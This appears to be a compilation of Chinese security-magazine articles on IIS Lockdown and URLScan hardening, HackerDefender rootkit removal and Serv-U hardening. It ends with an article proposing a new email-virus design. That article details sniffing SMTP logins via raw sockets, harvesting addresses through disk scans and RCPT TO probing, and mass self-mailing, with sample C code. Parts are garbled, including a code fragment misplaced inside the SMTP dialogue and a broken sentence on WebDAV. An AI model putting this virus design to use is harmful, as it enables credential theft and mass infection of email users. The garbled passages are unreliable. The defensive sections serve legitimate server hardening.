默认情况下安装 IIS 所包含的示例脚本，对于服务器以及服务器上运行的应用程序来说是个巨大的安全威胁。这是由于这些示例程序的主要目的是为了给用户展示功能，因此它们的编写往往不会遵循高级别的安全规范。也就是说，它们一般不会包含输入检查的过程来防范攻击者提供恶意请求这样的情况。这样也许会导致泄露关键应用程序的源代码，或者在 IIS 服务器上执行任意代码等事件的发生。

IIS Lockdown 工具是通过取消这些示例脚本以及它们所在目录的映射来消除潜在风险的。注意的是，该工具并不会删除这些文件，用户在需要的情况下可以恢复这些文件。

- 4. 修改关键的文件访问许可

IIS Lockdown 会修改 Web 根目录（InetPub\wwwroot）的访问权限。这样就让匿名的 IIS 用户不能在文件中创建或删除文件，也不能在这些文件中添加／删除信息或者改变文件的属性等等。访问权限在安装 IIS Lockdown 之前和之后的情况为：

| 状态 | 用户/组 | 权限 |
|---|---|---|
| 安装前 | Everyone | Read-Only |
| 安装前 | NT AUTHORITY\SYSTEM | Full Control |
| 安装前 | BUILTIN\Administrators | Full Control |
| 安装后 | Machine\Web Applications | DENIED Write |
| 安装后 | Machine\Web Anonymous Users | DENIED Write |
| 安装后 | Everyone | Read-Only |
| 安装后 | NT AUTHORITY\SYSTEM | Full Control |
| 安装后 | BUILTIN\Administrators | Full Control |

该工具同样会修改 %Windir% 目录下的文件许可。这样就防止用户远程执行例如 cmd.exe、ftp.exe 和 edit.com 这样的系统自带文件。因为虽然匿名的 IIS 用户不能从远程直接访问到这些文件，但是利用新出现的或者过去就存在的漏洞仍然有办法远程执行这些命令。所以利用 IIS Lockdown 工具来删除不必要的许可，对于弥补一些漏洞带来的风险相当有效。

- 5. 编辑 WebDAV 的访问许可

Web Distributed Authoring and Versioning（WebDAV）是一种能让用户远程对 IIS Web 服务器上的文件进行操作和管理的机制。该功能是由文件 httpext.dll 提供的。IIS Lockdown 工具不允许 “Everyone” 组的用户对该 DLL 有执行权限，这样就降低了未授权用户上传恶意文件或者删除服务器上的重要文件的风险。

虽然 IIS Lockdown 为 IIS 管理提供了许多安全方面的便利，但是它却并不是一个完善的 IIS 解决方案。例如对于客户端输入数据的检查，这个 Web 服务器安全的关键部分的解决方案并没有包含在 IIS Lockdown 中。恶意的 URL 可能会导致严重的安全事故，因此，我们同时还需要使用微软开发的 UrlScan（是一个独立软件，而不是作为 IIS Lockdown 的一部分）来进一步加强服务器的安全，它是一种能将请求在传给服务器进行处理之前先对请求的 URL 进行过滤的工具。

IIS 作为流行的服务器，其安全问题主要是来自两个方面：首先，和其他的 Web 服务器一样，默认安装的 IIS 出于新用户使用方便的考虑，一些权限设置并不严格，一些安全的选项在默认情况下也并没打开，一些不必要的服务在默认情况下也是开启的，并且还有一些不安全的范例脚本，这些都给攻击者留下了大量的可乘之机。以前要对默认安装的 IIS 进行加固处理，需要管理员手工进行一系列比较烦琐的工作。而 IIS Lockdown 提供了更好的安全配置接口，让以前对默认安装的 IIS 能够进行更方便的加固工作，这些在刚才已经做了介绍。第二方面，Web 服务器的安全很多还在于 Web 服务器程序之上的具体应用的安全性，例如一些不必要的文件映射、过滤不严格等等问题，而 UrlScan 在这里更类似一个基于主机的 Web 入侵检测系统，许多常见的 CGI 渗透攻击，都可以使用 UrlScan 来进行防范与记录工作。

### URLScan

许多针对 Web 服务器的攻击都需要构造恶意的 URL，这些 URL 包括特别长的 URI，用其他的字符集进行过编码，或者是包含了一般的合法请求中不会包含的字符序列。这些 URL 如果经过 IIS 服务器处理后，有可能对服务器或者服务器上的 Web 站点造成很大的破坏。为了应对这些恶意的 URL 带来的威胁，Microsoft 开发了一种叫做 URLScan 的工具。

正如它的名字所表示的那样，UrlScan 对所有进入的 URL 请求都进行扫描。UrlScan 会基于一些预先建立的规则来对这些请求进行过滤，并只将有效的数据提交给服务器进程来进行处理。它提供了选项来让管理员可以将被过滤掉了的请求存储在日志文件中。

要注意的一点是，UrlScan 在 IIS 6.0 下实际用处并不大。大多数 UrlScan 提供的特性，IIS 6.0 都有提供，或者通过修改注册表的键值也可以实现。因此，以下部分主要是针对 IIS 5.0 以及以前版本的应用做介绍的。

URLScan 包含了两个关键的文件：urlscan.dll 和 urlscan.ini，它们位于 `%systemroot%\inetsrv\Urlscan` 目录下。

Urlscan.dll 是一个 ISAPI 过滤器，它是在安装 IIS Lockdown/UrlScan 时自行注册的，也可以通过 Internet 服务管理器界面进行手工注册。它会根据 Urlscan.ini 配置文件来对发给 IIS 服务的所有请求进行预处理，以查找出恶意的输入。被拒绝的请求会被记录在 Urlscan.log 文件中，该文件与其他 UrlScan 文件位于同样的目录中。

Urlscan.ini 文件是成功防范针对 IIS 服务器的攻击的关键。由于它的重要性，我们接下来会主要对这些配置进行介绍。

Urlscan.ini 文件包含两个主要部分：选项和实现内容。文件中的选项部分允许用户打开或者关闭某个选项，而具体的实现内容中则包含了打开的选项中的实际内容。下面是选项和具体的实现。

选项的值为 “0” 或者 “1”。一般来说，“1” 是打开某个功能的选项，而 “0” 是关闭某个功能的选项；或者 “1” 是允许使用某些具体实现，而 “0” 会对具体实现中定义操作列表进行拒绝操作而允许其他的默认操作。另外，分号 “;” 用来标记 urlscan.ini 文件中注释的开始。

### UseAllowVerbs

（使用允许的操作类型）

> `UseAllowVerbs` 的默认值为 “1”。如果该值被设置为 “1”，则只有在 “AllowVerbs” 部分中专门指定的方法可以提交给 Web 服务器，而其他的方法则会被阻塞。如果该值被设为 “0”，那么除了在 “DenyVerbs” 部分中指定的方法以外，其他的方法都会被交给 Web 服务器处理。

该选项可以通过禁止一些方法（通过包含方法或者是排除方法，也就是说“没有经过许可的都禁止”或者是“没有禁止的都许可”这两种策略）来帮助管理员防范那些利用未知方法来对 Web 服务器进行的攻击，例如进行跨站脚本攻击的漏洞，或者是 WebDAV 的 PROPFIND 漏洞。该漏洞可以通过简单地将 “Content-Length:” 域设置为受枚举 Web 服务器的内部 IP 地址。

### UseAllowExtensions

（使用允许的文件类型扩展）

该选项是与具体实现部分的 “AllowExtensions” 和 “DenyExtensions” 联系在一起的。“UseAllowExtensions” 的默认值为 “0”。该选项值允许除那些在 “DenyExtensions” 中指定的扩展以外的其他扩展都可以被服务器处理。如果该值被设置为 “1”，那么就由 “AllowExtensions” 中的内容进行处理，也就是说只允许一部分的扩展传递给服务器，而其他的扩展都会被拒绝。

该选项可以通过禁止服务器处理一些扩展类型来帮助管理员防范攻击者滥用扩展来攻击远程系统。要预防的攻击例如 “.htr” 攻击，攻击者可以通过将请求修改为 “global.asa+.htr” 来查看 “global.asa” 文件中的内容。

### NormalizeUrlBeforeScan

（在扫描前对 URL 进行正常化处理）

一些请求在发送给服务器之前可能已经经过了十六进制编码、URL 编码或者是 UTF 编码。例如 %20 代表了 ASCII 中的空格。用户可以通过其他的表达方式来请求 Web 服务器上的文件。使用 “NormalizeUrlBeforeScan”（在扫描前对 URL 进行正常化处理）可以在对 URL 进行处理前先对其进行正常化处理。在请求被处理前，其中包含的所有字符都会被解码／正常化。该选项的默认值为 “1”，也就是说在请求被传递给服务器之前会先对其进行正常化处理。

### VerifyNormalization

（确认请求是否正常）

一些发送到服务器的请求有可能已经经过了多次的编码。例如 %255c 就是经过二次编码过后的 “\”，“\” 的十六进制编码为 %5c，而 “%” 的十六进制编码则是 %25。因此，经过了一次编码过后的 “\” 就成了 %255c。

当 “VerifyNormalization”（确认请求是否正常） 的值被设置为 “1” 时，这也是该选项的默认值，它就会对 URL 进行两次的解码处理，并将结果与对 URL 进行一次解码处理后的结果进行比较。如果两次的结果不相同的话，那么该请求就会被拒绝。

### AllowHighBitCharacters

（允许高位的字符）

一些发送给服务器的请求，其中可能会包含一些非 ASCII 的字符。这些字符一般是经过了 UTF-8 编码，而站点国际化语言支持包才能使用这些字符集。该值在默认情况下为 “0”。当它为默认值时，服务器不会对非 ASCII 的字符进行处理。但是当该值被设置为 “1” 的时候，服务器就会直接对请求进行处理而不会拒绝。

### AllowDotInPath

（允许路径中带点）

许多发给服务器的请求都包含了 “./”。在某些网站自己网页的源代码中经常可以看到类似的情况，例如 “../../images/company_logo.gif”。

该选项在默认情况下为 “0”，在默认情况下 UrlScan 会拒绝任何路径中包含了多个连续的 “.” 的请求，包括上面例子中显示的那个，但是来自服务器自身 IP 地址的除外。如果将选项设置为 “1” 的话，那么会允许请求的路径或者文件名包含多个 “.”。

### RemoveServerHeader

（去掉服务器的头信息）

默认情况下，当一个请求被发送到服务器的时候，该服务器会返回一些可选信息。这些信息中包括对运行该站点所使用的服务器版本信息进行描述的 “Server:” 域。

该选项的默认值为 “0”，也就是会将服务器的版本等信息返回给客户端。如果将该值设置为 “1” 的话，服务器不会将服务器的名称发送到客户端，包含服务器名称的那个字符串会被整行去掉。

### EnableLogging

（启动日志）

该选项会记录所有与 URLScan ISAPI 有关的活动。它不会记录客户端发送的请求，同时也会记录 ISAPI 的相关设置信况。该选项的默认值为 “1”，也就是在默认的情况下会开启日志记录功能，如果将它设置为 “0” 的话，日志功能就会关闭。

### PerProcessLogging

（对每个进程情况分别进行日志记录）

该选项可以作为一种扩展的日志手段。它会根据每个不同的进程 ID 来分别对这些进程进行日志记录工作，每个进程的日志都是分开的。该选项可以用来根据进程的 ID 来对某个特定的进程进行调试。

### AllowLateScanning

（允许后扫描）

该选项让管理员可以决定是以高权限还是低权限装载 UrlScan ISAPI。注意该选项在 IIS 6 下并不实用，这是因为 IIS 6.0 在自身设计方面的原因和先前版本的 IIS 有所区别。

该值在默认情况下为 “0”，也就是说会以高权限装载 URLScan 的 ISAPI，这样就会在服务器进程之前预先对所有的请求进行处理，然后才将请求交给服务器进程进行处理。当该值被设置为 “1” 时，URLScan 会被后装载，也就是说会先允许使用其他的 ISAPI 过滤器，然后才让 URLScan 对输入进行过滤。

### PerDayLogging

（每日日志记录）

该选项决定是否需要每天都产生日志作为备份，还是让管理员可以对单个日志循环使用，在一定的情况下最新的日志信息会覆盖掉最老的日志信息。该选项的默认值为 “1”，也就是将每天的日志分开保存。新的日志是在每天的当天末尾生成的（12:00 AM）。日志文件都包含了日志标号，形式为 Urlscan.<日期>.log。

### RejectResponseUrl

（拒绝请求时的响应页面）

该选项指定返回给客户端的自定义出错信息。

### UseFastPathReject

（快速拒绝）

该选项是与 RejectResponseUrl 联动使用的。如果 “UseFastPathReject” 的值被设置为 “0” 的话，ISAPI 就会返回 “RejectResponseUrl” 中定义好的值；但是如果该值被设置为 “1” 的话，ISAPI 不但不会使用 “RejectResponseUrl” 选项，同时也不会对请求进行记录。如果 Web 站点的总体结构中包含了 ISA 服务器的话，那么代理服务器会对请求和响应都进行记录。

“UseFastPathReject” 在默认情况下值为 “1”。URLScan 会忽略 “RejectResponseUrl” 选项，直接返回给浏览器一个 500 消息。这样的话会比根据 RejectResponseUrl 对请求进行处理要快，但是记录的内容会较少。

### AlternateServerName

（修改服务器名称）

该选项可以决定是否允许修改 “Server” 值。它是与 “RemoveServerHeader” 联动使用的。如果 “RemoveServerHeader” 的值被设置为 “0” 的话，AlternateServerName 可以被用来替换掉 IIS 内置的 Server 头信息。

### DenyUrlSequences

（拒绝包含某些字符序列的 URL）

该选项让你可以指定一个列表来拒绝那些包含于列表中的字符序列的 URL。默认拒绝的序列包括 “..”、“./”、“\”、“%” 和 “&”。你也可以继续添加类似 “#”、“<”、“>”、“$”、“@”、“!”、“;” 和 “:” 这样的序列到列表中去。

### 总结

同时使用 URLScan 和 IIS Lockdown 可以防范多种针对 IIS 的攻击，但是它们并不是 IIS 管理员所期望的完全安全解决方案。作为 IIS 的管理员而言，其他方面的安全问题同样需要花时间和精力去考虑。这些问题包括如何实现适合自身的补丁管理机制，来保证 IIS 以及运行 IIS 的系统与不断发布的补丁同步，如何对运行 IIS 的系统进行加固，以及进一步将那些不可能用到的 DLL 删除来避免偶然对这些 DLL 进行重新映射。但是客观地来说，IIS Lockdown 和 UrlScan 的确能够在很大的程度上帮助管理员加固 IIS 服务器的安全。

蝴蝶：在众多的后门工具里面，Rootkit 无疑处于一个“大哥”的地位，不管是从功能上还是隐藏方式上，它都是其他后门工具所无法比拟的！基于它的特性，清除工作变得非常困难，难道我们“束手待毙”？当然不是，针对黑客攻击，特约此文，给大家讲讲如何清除它！

## 让“黑客守卫者”乖离我们！

文／图 D.KING

### 前言

关于 Rootkit，相信玩 Hack 技术的朋友一定很清楚这是来自 Linux 下的词语，意思是用作获得系统 root 访问权限的工具。实际上，rootkit 是攻击者用来隐藏自己的踪迹和保留 root 访问权限的工具，如果攻击者想在远程攻击时获得 root 访问权限，通常首先进行密码猜测或者密码强制破译等手法来尝试获得系统的访问权限，进入系统后，如果没有获得 root 权限，再考虑通过某些安全漏洞获得系统的 root 权限，接着攻击者会在侵入的主机中安装 rootkit。

今天我们要清除的是 NT 系统下的 Rootkit，一个修改系统内核级别的后门——HackerDefender，中文名字叫做“黑客守卫者”。它是如今 Windows 下最高级别的后门之一，被 Hacker 广泛地使用，所以如何清除它成为了一个被大家经常讨论的问题。相信部分老鸟已经练就了一身清除它的本领，但是作为一些普通技术人员恐怕就没那么多时间来研究它了，今天我们就来给大家介绍一些清除它的方法。

### 手动检测

所需工具：Kernel PS v0.4。

Kernel PS v0.4 作者是大名鼎鼎的 zzzr，程序包括 knlps.exe 和 knlps.sys 两部分，这两部分在使用时一定要在同一个目录里。它支持：Win2k Pro/Server build 2195、WinXP build 2600、Win2003 build 3790 系统，在 NT 下我没有测试，希望有条件的朋友测试一下。

```
用法：

在 cmd.exe 命令行环境下，切换目录到 knlps 所在目录。

> knlps -l         列举进程
> knlps -k pid     终止指定 pid 的进程
```

这个工具不仅仅可以检查出“黑客守卫者”，还可以检测出其他的 Rootkit，功能非常强大，完全可以替换掉著名 PSTools 系列软件里的 pslist 和 pskill。下面我们用 pslist 和 Kernel PS 分别检测中了“黑客守卫者”机器的系统进程，可以看出 pslist 完全检测不出“黑客守卫者”的存在，这足以说明“黑客守卫者”的强大和危险。

这是 pslist 检测出来的系统进程，看不到有“黑客守卫者”073 版的 HXDEF073 进程，如图 1 所示。

而 Kernel PS v0.4 的检测抓图，可以清楚地看到系统中多了一个 HXDEF073 进程——“黑客守卫者”073 版的进程，它的 PID 是 1048。我们用 `-k 1048` 参数杀死它，然后我们到目录“I:\黑客守卫者清除方法\”里删除 hxdef073.exe 和与它同名的 INI 文件，来达到清除“黑客守卫者”的目的。（图 2）

但是现在也不能说是彻底地清除了这个东西，因为它在系统服务里有启动项，我们还需打开注册表搜索“黑客守卫者”的进程名：hxdef073.exe，找到相关键值删除，这样就完美地清除了“黑客守卫者”。如图 3 所示。

### 工具清除

所需工具：Rootkit Detector v0.3。（见光盘）

Rootkit Detector v0.3 是 http://www.3wdesign.es 设计的非常好的 Rootkit 清除软件，它有着非常强大的检测功能和清除功能，可以发现当前几乎所有的危险进程和隐藏服务。

现在可以完美支持清除的 Rootkit 有：

- AFX Rootkit 2003
- Hacker Defender
- He4HookInv
- Rkit（Backdoor.W32/ASW）
- NT Rootkit _root_

它的命令参数是：`rkd.exe`

- `-v` —— 检查不正当信息。
- `-m` —— 获得文件 MD5 值。

这是一个非常简单的 Rootkit 后门清除工具，在 CMD 下执行就可以完全检测整个系统中存在的不正当进程，比如 Hidden Process 隐藏的进程和 Hidden Services 隐藏的服务，甚至包括可疑的后门和病毒都可以被检测出来。如图 4 所示。

看看结果，甚至把“冰河”的内嵌进程监控也给查了出来，呵呵。现在我们执行“黑客守卫者”看看 Rootkit Detector v0.3 会不会检查出来并且清除它。如图 5 所示：

看到了吗，非常完美地清除了“黑客守卫者”的进程 hxdef078，并且报告了它的 MD5 值，非常方便，适合广大新手使用。

### 总结

因为时间的关系，我只能这样简单地介绍一点 Windows 下的 Rootkit 清除方法，希望对广大新手和管理员有所帮助。但是我们不能等已经被攻陷以后再做修补，所以大家应该勤快地给系统修补 Bug，并且使用杀毒软件。

## 防护 Serv-U 配置漏洞攻击

难度等级：高

适合对象：Serv-U 使用者

文／图 netfbi

### 针对性防御

想必大家都看了《完美后门之 Serv-U 篇》这篇文章吧，文章作者的构思可谓巧妙，特别是通过 WinHex 对 Serv-U 的系统文件进行修改，从而修改远程连接端口的地方，因为 Serv-U 有着众所周知的登录密码，所以只要可以连接远程 Serv-U 的管理端口，就可以完全控制 Serv-U！后果自然很严重！其实只要网管们稍微注意一下就可以发现这些蛛丝马迹了，下面我们来看看怎么防护这样的攻击。

《完美后门之 Serv-U 篇》一文中采用了两种方式来实现对 Serv-U 的远程控制：

- 间接方式（port map）：通过把本地地址 xx.xx.xx.xx:43958 转发到 127.0.0.1:43958 上面。
- 直接方式（IP modified）：通过修改 ServUDaemon.exe 里面的 127.0.0.1 的 IP 地址为 0.0.0.0 来实现全局绑定，打开对外的 FTP 控制。

以上我们都可以通过在 DOS 下面用 `netstat -an -p tcp | find "43958"` 查看。正常的情况 Serv-U 是把这个端口绑定在 127.0.0.1 上面，如果发现什么异常的现象，那么你的服务器肯定是已经被黑客进入了！

那么，我们有没有办法定期来对这个做检查呢？可以的！我们只要建立下面的一个 bat 文件：

```text
netstat -an -p tcp 60 | find "43958" >>1.txt
& now >>1.txt
```

你可以修改 60 为 3600，那么我们可以在每一个小时内记录下 Serv-U 的端口情况，以后要看的时候，我们只要用 Windows 的查找内容功能就可以了。

### 积极性防御

Serv-U 的漏洞是不断发生的，显然针对性的防御是有局限性的，那么我们该如何面对未知的漏洞呢？应该主动设置 Serv-U 的安全属性！

- 将你的 Serv-U 老版本扔了，换上最新的 5.0，这样自然就把 4.x 版本的溢出漏洞丢掉了（具体漏洞分析和利用请看本期文章，有发现漏洞者的首发文章）。

上面那项“执行”千万不能给（建议写权限最好也不要给）。

- 联合 NTFS 安全权限来控制用户。我们可以用 Serv-U 来控制用户只能在那个目录访问，把用户将要访问的文件放到一个大的目录下面，然后把这个目录的权限设置为：

  - `Administrator -----> 完全控制`
  - `SYSTEM -------> 只读，浏览目录（写权限自己看着办）`

其他的全部不要，删除，如图 2 所示。不要以为这样就完了，记得把你的 C 盘、D 盘等等盘的权限全部都删除，留下 Administrator 和 SYSTEM 的读写权限。

### “变态”防御

下面我们介绍用服务用户替换的办法来限制 Serv-U 的访问。这样我们就可以达到完全开启 Serv-U 的目的，不害怕溢出后对系统造成危害了！这种办法跟防止 IIS 目录被浏览一样：首先建立一个叫 Serv-U 的用户，用户密码尽量复杂，把用户分配到什么组不重要，现在我们来把它登录服务的账号替换掉，如图 3 所示。

还没完，因为 Serv-U 需要访问自己的文件，所以建议把这个文件放在一个单独的盘里面，这最适合那些有很多 FTP 需要被下载的人们：如果放在 E 盘，那么我们现在假设 E 盘为 Serv-U 程序所拥有了，所以最开始的 Serv-U 也安装在 E 盘。接下来，设置 E 盘的安全属性为 Serv-U 用户和 Administrator 完全访问，然后在 Windows 的系统目录 Admin$ 设置权限为 Serv-U 用户可读，最后单独设置 cmd.exe 的继承权限关系，排除 Serv-U 这个用户！

OK！把你的 FTP 服务器的地址和密码告诉你的朋友们吧，叫他们来入侵吧！甚至把管理员密码告诉他们也可以，哈哈！

### 总结

其实很简单的操作就可以使你的服务器稳妥许多，为什么不试着做一下呢？如果你在做的过程中遇到了什么问题，那就到黑防论坛上来找我吧，偶经常在“网管之家”，希望能给你带来帮助！

## 一种新的邮件病毒传播思想剖析

Socket：在各大反病毒公司和安全机构公布的 2003 年病毒排行榜中，名列前茅的除了几个影响重大的蠕虫外，几乎都是可以通过邮件快速传播的网络病毒。目前，邮件传播已经成为病毒快速传播的一种“时尚”，同时垃圾邮件也成为全球一个极为头疼的问题，全球都在寻找对抗垃圾邮件的有效方法。本文提出了一种未来病毒可能采取的邮件传播方法，相信这对我们及早做好相关准备和防范是非常有帮助的。

- 难易程度：中级
- 前置知识：垃圾邮件，Socket 相关知识

病毒、DDoS、垃圾邮件已经成为当今网络安全的三大技术难题，反垃圾邮件之所以如此困难，是因为（E）SMTP 协议本身的缺陷，这正如 DDoS 是利用 TCP/IP 协议固有的缺陷一样。需要说明的是，邮件病毒为了传播自身而发送的邮件，也属于垃圾邮件的一种。

2003 年出现的 Sobig 病毒使垃圾邮件的数量大为增加，许多安全专家认为 Sobig 使用了垃圾邮件技术并预言：病毒技术和垃圾邮件技术的融合将是未来的发展趋势。其实，这种说法虽然正确但不准确，不错，Sobig 发送的邮件确实属于垃圾邮件，可是爱虫病毒、欢乐时光病毒发送的邮件又何尝不是？只不过 Sobig 发送两份相同邮件的频率高，所以截获的传播数量才特别大，但真正的感染数量并不大，Sobig 在技术上并未采用垃圾邮件技术。

> 截获的邮件数量和被病毒感染的主机数两者之间是没有必然联系的，不过这恰恰衬托出一个问题：一台机器被感染 Sobig 后，它发送了过多垃圾邮件。看来，其单兵作战能力很强。

本文将在分析邮件病毒和垃圾邮件关键技术的基础上，提出利用垃圾邮件技术传播病毒的思想。当然，这并不是为了传播病毒，而是为了更好地预防未来可能出现的这类病毒。本文假设读者已经具备了（E）SMTP 协议、病毒、垃圾邮件等方面的相关知识。

## 邮件病毒的局限与解决方法

邮件病毒面临的 3 个主要问题：一是邮件地址搜集，二是服务器地址来源，三是如何使附件尽可能多地获得执行机会。本文只讨论前两点：

### 1. 邮件地址搜集

- 从 wab 文件获得  
  从 regedit 获得 wab 文件路径，然后分析已知格式的 wab 文件，读取其中的地址。
- 从 `*.ht`、`*.htm`、`*.html`、`*.txt`、`*.dbx`、`*.eml` 等文件获得  
  可以遍历 Internet 临时目录或遍历硬盘，从上述扩展名的文件中寻找地址。方法和垃圾邮件搜索 html 页面类似，都是寻找 `mailto` 和 `@`，作为合法 email 地址的标志。

第一种方法收集到的地址可信度比较高，点击率也会比较高；第二种方法如果地址选择算法严谨，那么找到的地址基本上都是合法的 E-mail 地址，但可信度较低。两种方法搜集到的地址数量都相当有限，这成为病毒传播的制约条件之一。后文将会提到解决方案。

### 2. 邮件服务器地址和账号密码的来源

当前，几乎所有的邮件病毒都把一个或几个服务器的 IP 地址硬编码在文件体内，这样，一旦邮件服务器不可用，病毒就停止了传播。而且，由于网络安全策略的限制，许多感染病毒的主机都无法和这些指定的服务器连接，从而影响了病毒的传播速度。这里我们将提出一种新的方法来获得大量可靠的 SMTP Server、账户和密码信息。

在 Win2K 平台上，我们可以利用 WinSock 2 的特性，它允许程序使用 WSAIoctl() 给一个 `SOCK_RAW` 类型的 socket 设置 `SIO_RCVALL` 属性，这样该 socket 就可以收到所有经过本机的数据，这是一种无需编写驱动的简易 Sniffer。

许多聪明的读者已经想到下一步的工作了，是的，利用原始套接字捕包，原则如下：

- 目的端口等于 25。
- 从 SYN 包开始记录，这是客户端和 SMTP Server 正在连接的过程。
- 根据 HELO 或 EHLO 来判断服务器是否需要认证。
- 如果是 EHLO，捕获后续的用户名和密码。
- 根据“MAIL FROM:”得到发件人。
- 抛弃病毒自身向 25 端口发送的报文。
- 如果捕获的数据发生错误的次数超过上限，放弃当前的服务器，恢复到初始状态。

为方便起见，可以定义 `SMTPSERVINFO` 结构体来保存服务器信息。

```c
typedef struct tagSmtpServerInfo {
    DWORD   dwCredit;      // 此服务器信息的可信度，根据发信成功递增
    BOOL    bAuth;         // 服务器是否需要认证
    in_addr dwServerIP;    // 邮件服务器的 IP
    char    szUserName[32];// 用户名
    char    szPassWord[32];// 口令
    char    szMailFrom[32];// 发件人
} SMTPSERVINFO;
```

下面的 CaptureThread 函数是捕包线程，工作方式和原则如上所述，其中的初始化和判断成功的代码省略。

主线程负责将此服务器信息写入病毒体，并对病毒体重新编码，使得再次发送的附件包含最新信息；同时，主线程还会启动一个新的邮件地址探测线程，连接此服务器，获得尽量多的此服务器的账户并向其发送自身。如何获得账户将在下文说明。

至此，我们完成了邮件服务器和账户信息的获取工作，病毒每到一处，都会搜集最新的服务器信息，搜集到的信息基本都是网络可达的，因为涉及到的服务器数量极多，范围极广，所以封杀服务器或者账户是不可能的，这些都是 Sniffer 捕包获得服务器的优势所在。

## 垃圾邮件的关键技术

垃圾邮件的详细技术不在本文讨论范围之内，但为了说明问题，必须要有简要的说明。一般来说，垃圾邮件必须解决的两个问题是：

### 1. 发送方式的选择

- 利用 SMTP 协议无须认证的缺点
- 利用 Open Relay（开放转发）

Open Relay 是指邮件服务器不理会邮件发送者或邮件接受者是否为系统所设定的用户，而对所有人的邮件一律进行转发（Relay）的功能。

- 特快专递法

特快专递就是利用本机充当发件服务器的功能，由 DNS 解析出收件服务器的 IP 地址，然后将本机直接与收件服务器相连，将邮件直接发送到收件人的收件服务器上。Foxmail 的“特快专递”就是这个原理。现在，特快专递已经逐渐失效，安全级别高的 SMTP Server 不允许非 SMTP Server 直接发送，避免被 Spammer 利用。

- 自建 SMTP 服务器

Spammer 自己建立 SMTP 服务器，直接和目标服务器连接，发送邮件。这种情况不需要匿名服务器和转发服务器的帮助。目标服务器没有理由拒绝来自一台邮件服务器的请求，所以原理上总能保证发信成功，缺点是必须申请域名，且必须频繁更换 IP 和域名，否则很快会被列入黑名单。

由上可见，垃圾邮件的发送技术不适合病毒使用，尽管对于 Spammer 来说，利用上面的方法，只要找到一个 SMTP Server 就可以发送数以百万计的邮件了，并且一个地址失效后可以人为地更换，但病毒则不同，必须自力更生，如上所述的 Sniffer 就是解决途径。

### 2. 邮件地址的获得

- VRFY 指令

该指令的作用是验证一个用户是否是本地用户：是则返回完整的地址，否则根据 SMTP 的返回设置回应。Spammer 利用这个命令配合字典穷举用户名来收集有效的邮件地址。在新版本的 SMTP 软件中，这个指令已被禁用，但未取消。

- EXPN 指令

该指令用来向服务器查询邮件列表，成功则返回列表，每行一个地址。此指令在新版本的 SMTP 软件中也被禁用。

> VRFY、EXPN 命令的功能也曾被当成邮件服务器的缺陷，并且邮件服务器对该功能进行控制对反垃圾邮件具有非常积极的促进意义。

- 分析网页

Spammer 通过搜索引擎如 Google、Yahoo 等获得 URL，将网页下载到本地后，通过匹配关键字 `mailto:` 和 `@` 来收集地址。这种方法应用很广泛，并且有效。不过现在已经有应对措施，比如用 `<at>` 代替 `@`。

> 在 xfocus 中，我们经常可以看到形如 mailuser_at_mailhost.com 的邮件地址，如果你在此之前还为之不解的话，现在应该有所感悟了吧！

- 虚拟发信法

Spammer 通过正规的步骤连接 SMTP Server，然后发送 HELO（EHLO），MAIL FROM 成功后，再发送 `Rcpt To: <str>`，如果得到正确的回应，则收录 str，作为合法的邮件地址，然后读取下一个 str，再次做 `Rcpt To` 尝试，直到发生错误或遍历了所有字符串为止。这种方法的优点在于，在 `Rcpt To` 之前发送的命令都是合理的，所有 SMTP 服务器都不能拒绝 `Rcpt To`，正如所有 Web Server 都不能拒绝 SYN 包一样。

而关键也就在于此了，前面提到邮件病毒搜集地址数量的局限，这里我们可以采用虚拟发信法来解决。形象地描述如下：

```text
客户：Connect(SMTP Server)
服务器：220 smtp.263.net ESMTP，连接成功
客户：HELO localhost
或：EHLO localhost
服务器：250-smtp.263.net
        250-PIPELINING
        250-AUTH LOGIN
客户：AUTH LOGIN\r\n
服务器：334
客户：用户名的 Base64 编码
服务器回送：334
```

客户：密码的 Base64 编码

服务器：235 Authentication successful

客户：MAIL FROM: `<username@263.net>`\r\n

服务器：250 Ok

客户：RCPT TO: `<str>`\r\n

服务器回送：

- 250：str 为合法账户。
- 550：invalid user。
- 522：too many rcpto。

客户：DATA\r\n

```c
else // 错误，断开连接，重新探测
    break;
}
while(m_WordList->GetCount());
```

前文已经实现了用 Sniffer 方法获得邮件服务器和账户信息，并由 bAuth 字段标志是否需要认证，现在就可以利用 SMTPSERVINFO 来连接服务器并探测合法账户了。还有一个问题就是 str 的来源，我们选择从本地文件获得的方法，原则如下：

- 遍历硬盘，搜索以 txt、ht*、doc、eml、ini 等为扩展名的文件。
- 找到一个 word，加入 m_WordList 列表。
- 按照合法邮件地址的规则，找到一个 email，加入 m_EmailList 列表，发送邮件线程会直接读取 m_EmailList 列表并发送邮件。
- 邮件地址探测线程（EmailSpamer）读取 m_WordList 列表，验证是否为合法账户，是则加入到 m_EMailList。
- m_WordList 和 m_EMailList 都要保持一定的数量且记录互斥，以减小向同一 E-Mail 地址发送多次邮件的可能性。

现在获得了大量的 str，可以根据（E）SMTP 协议探测了，探测线程 EmailSpamer 如下：

```c
while(TRUE)
{
    m_Smtp.TalkWithSmtpServer();
    do
    {
        int iRet = m_Smtp.SendRcptTo(szRcptTo); // szRcptTo 来自 m_WordList
        if(iRet==250)            // 代表成功，确实有这个账户
            m_EMailList->Add(szRcptTo);
        else if(iRet==550)       // 账户错误，休眠一会，避免被封
            Sleep(100);
        else // 错误，断开连接，重新探测
            break;
    }
    while(m_WordList->GetCount());
}
```

至此，我们的思路已经十分清晰：

病毒运行后，首先启动文件遍历线程，从文件中获得大量的单词，加入 m_WordList，同时把从文件中获得的邮件地址加入 m_EmailList。地址探测线程先利用病毒体内已有的服务器信息开始探测，单词取自 m_WordList，对于验证成功的 word，将此 word+服务器域名构成 word@xxx.yyy 的形式后加入 m_EMailList。发送邮件线程不断读取 m_EMailList 发送邮件。监听线程捕获并分析网络报文，补充新的服务器资源，并写入病毒体。这样，源源不断的邮件地址就会应接不暇，病毒得以大面积扩散。

需要说明的是，大的邮件服务提供商通常有好的 anti-spam 特性，如果 rcpt to 错误次数达到一个上限，那么此账户就会被停用一段时间。但是，规模越大，注册的账户也就越多，随机找个单词，基本上都是合法账户。对于小型的邮件服务提供者，安全性很差，对 rcpt to 次数根本没有限制。归根结底，不管被封与否，在此之前都已经发现了数目可观的邮件地址，并向这些地址发送了病毒。

### 后记

